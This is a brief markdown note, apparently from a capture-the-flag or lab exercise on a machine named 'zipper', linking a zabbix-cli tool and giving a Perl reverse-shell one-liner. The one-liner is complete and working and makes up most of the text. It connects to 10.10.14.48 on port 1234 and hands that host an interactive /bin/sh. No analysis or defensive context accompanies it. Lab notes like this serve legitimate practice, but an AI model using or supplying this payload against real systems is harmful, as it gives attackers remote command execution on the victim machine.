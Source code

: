# zipper

## zipper-cli

https://github.com/usit-gd/zabbix-cli

## reverse-sheel

cannot use bash to reverse shell, so you can use perl:

```perl
perl -e 'use Socket;$i="10.10.14.48";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
